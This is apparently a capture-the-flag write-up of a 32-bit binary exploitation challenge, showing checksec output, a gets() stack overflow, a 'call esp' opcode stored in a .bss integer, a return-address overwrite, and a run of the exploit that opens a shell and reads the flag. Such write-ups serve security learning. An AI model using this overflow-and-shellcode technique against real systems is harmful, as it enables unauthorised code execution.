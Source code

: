 # pwn2 - SCTF 2016

First of all execute `file` command
```bash
$ file 23e4f31a5a8801a554e1066e26eb34745786f4c4 
23e4f31a5a8801a554e1066e26eb34745786f4c4: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x161ccbaf95a7d5b84a8298afab8fdeaeedd445c0, not stripped
```

and `checksec` 
```bash
$ ./checksec --file 23e4f31a5a8801a554e1066e26eb34745786f4c4 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No	0		4	23e4f31a5a8801a554e1066e26eb34745786f4c4
```
So i expect that i have to do something on the stack.
The program is simple: reads a string with `gets` and an integer and check if it is odd. 

![Vuln](vuln.png)

We can easily do buffer overflow and execute out shellcode. But the tricky part is to get the address of the buffer due ASLR. So i look for any useful 
gadget in the binary but without luck. 

But the integer `meow` is stored in the `.BSS`

![Meow](meow.png)

 so i can store an instruction that turns the control flow to my shellcode! What about `call esp`? The opcode for `call esp` is `ff d4` so the integer to send is
 ```bash
 $ python
Python 2.7.3 (default, Mar 13 2014, 11:03:55) 
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xd4ff
54527
```

So we overwrite the return address with `0x804a048` in order to call our istruction.

The full exploit is available [here](exploit.py)! 

Let's PWN them!

```bash
$ python exploit.py 130.211.202.98 7575
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAH�����������1�Ph//shh/bin�����°
    1�@̀, 54527 is an odd number!
ls
easy
flag.txt
cat flag.txt
TUCTF{th0se_were_s0me_ESPecially_good_JMPs}
```
